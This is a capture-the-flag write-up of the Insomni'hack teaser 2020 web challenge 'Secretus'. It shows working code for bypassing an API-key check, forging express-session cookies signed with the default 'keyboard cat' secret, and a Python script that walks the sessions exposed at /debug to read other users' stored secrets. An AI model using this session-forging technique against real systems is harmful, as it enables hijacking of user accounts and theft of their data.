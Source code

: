 ```yaml
---
title: "Insomni'hack teaser 2020 - Secretus (Web)"
date: 2020-01-20T13:37:00+01:00
author: "evilet"
description: "Writeup of the challenge 'secretus'@Insomnia'hack teaser 2020"
---
```

***TL;DR***
Reusing example configurations is bad.

Secretus was a pure Web challenge which presented us with a minimal form.

![Secretus Index Page](/img/ins20_secretus1.png)

The form did actually have no purpose as there were no handlers executed upon clicking the button or
doing anything else, such as making a handstand while looking at the form. So after searching for
a quite embarassing time for the secret feature of the button or how to fix the broken form, we figured out that there were to
more endpoints from interest: **/secrets** and **/debug**.

Visiting **/secrets** presents us with the following error message: `{"error":"INVALID_API_KEY"}`.
First, we only googled for the error message itself or parts of it 
and did therefore not find the correct example page with the used code.
So some time went by with the first page, again... before looking for the complete json message 
with the exposed framkework (`X-Powered-By: Express` header) in google, to find the
following page: [express-authentication](https://www.npmjs.com/package/express-authentication).

The example code on this page returns the same value as our page, and the following part is from interest
for authentication:

```javascript
req.challenge = req.get('Authorization');
req.authenticated = req.authentication === 'secret';
```

So, if we set the header `Authorization: secret` we should be able to visit the **/secrets** endpoint:

![Secretus Valid Auth Header](/img/ins20_secretus2.png)

Voila, we found the needed header to visit the page. The **/secret** endpoint presents us with kinda the same
form as the index page, but now we are able to insert at least 3 secrets which will be shown on the page.
Interesting in this step to notice is the cookie, which is set to map the secrets to a session: **connect.sid**.
This means, that there could be a session which has a secret we need to steal.

![Secretus Secrets Page](/img/ins20_secretus3.png)

But how do we find other valid sessions? There was another endpoint: **/debug** which we kinda ignored until now, because
it only redirected us to the home page. But if we use the _Authorization_ header on this endpoint, we get the following:

![Secretus Debug Page](/img/ins20_secretus4.png)

If we compare the returned list values against our session `connect.sid=s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k;`, we can see that
the first part (after `s:` and before the first dot) is also present in the list from the **/debug** endpoint: `LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.json`.
So we got the first part of the cookie and the second part is probably some kind of signature to verify the validity of the cookie.
This time, we google for the cookie name (`connect.sid`) to find: [express-session](https://github.com/expressjs/session) which again
pretty much looks exactly like what we got as response from secretus. Looking through the code, searching with the github search
for the "sign" function reveals the following code to set the cookie:

```javascript
function setcookie(res, name, val, secret, options) {
  var signed = 's:' + signature.sign(val, secret);
  var data = cookie.serialize(name, signed, options);

  debug('set-cookie %s', data);

  var prev = res.getHeader('Set-Cookie') || []
  var header = Array.isArray(prev) ? prev.concat(data) : [prev, data];

  res.setHeader('Set-Cookie', header)
}
```

Interesting for us is the second part, in which the signature is created. This once again looks exactly like what we got (the "s:"
in front with the value and the signature). But where do we find the variable value **secret** for the signature? And here the "theme" of
the challenge came through, using default values. The README gile in the repository has the following example giving us the secret `keboard cat`:

```javascript
var app = express()
app.set('trust proxy', 1) // trust first proxy
app.use(session({
  secret: 'keyboard cat',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: true }
}))
```

With the help of the original code, we build our own function reusing the frameworks for simplicity:

```javascript
var express = require('express');
var app = express();
var signature = require('cookie-signature')

app.get('/', function(req, res){
	console.log(req.query.yay);
	var x = 's:' + signature.sign(req.query.yay, "keyboard cat");
	res.send(x);
});

app.listen(3000);
```

This will start us an express service which expects the parameter _yay_ on a request and uses it as value for the signature.
Afterwards the complete cookie value is returned, signed and ready to use. We test it with our original session which should
return `s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k` if `LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te` is given:

```bash
~ curl "127.0.0.1:3000/?yay=LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te"
s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k
```

Now we can forge all existing session with the following steps:

1. Visit **/debug** and extract the list of all sessions.
2. Create valid session cookies for each extracted session.
3. Visit the **/secret** endpoint with each session cookie.
4. Look for interesting stored secrets, such as the flag.

We did these steps in Python as shown in the following:

```python
#!/usr/bin/env python3
import requests
from lxml import html

headers = {'Authorization': 'secret'}
url = "http://secretus.insomnihack.ch"

# Request the debug endpoint to retrieve all sessions
r = requests.get(f"{url}/debug", headers=headers)

# Parse sessions out of html and strip the .json in the end
# using list comprehension. List comprehension is awesome!
tree = html.fromstring(r.text)
all_sessions = [os.path.splitext(s)[0] for s in tree.xpath('//li/text()')]

# Iterate over each session value
for session in all_sessions:
		# Retrieve the full session cookie, querying our own express session service
		cookie_request = requests.get(f"http://127.0.0.1:3000/?yay={session}")

		# Set the retrieved cookie
		cookies = {"connect.sid": cookie_request.text}

		# Request the secret endpoint with our currently forges session
		get_secrets = requests.get(f"{url}/secret", headers=headers, cookies=cookies, proxies={"http": "http://127.0.0.1:8080"})

		# Extract and print all secrets from current session
		tree = html.fromstring(get_secrets.text)
		secrets = tree.xpath('//li/text()')
		if secrets:
			print(secrets)
```

The script in its full action:

![Secretus flag retrieval](/img/ins20_solution.gif)
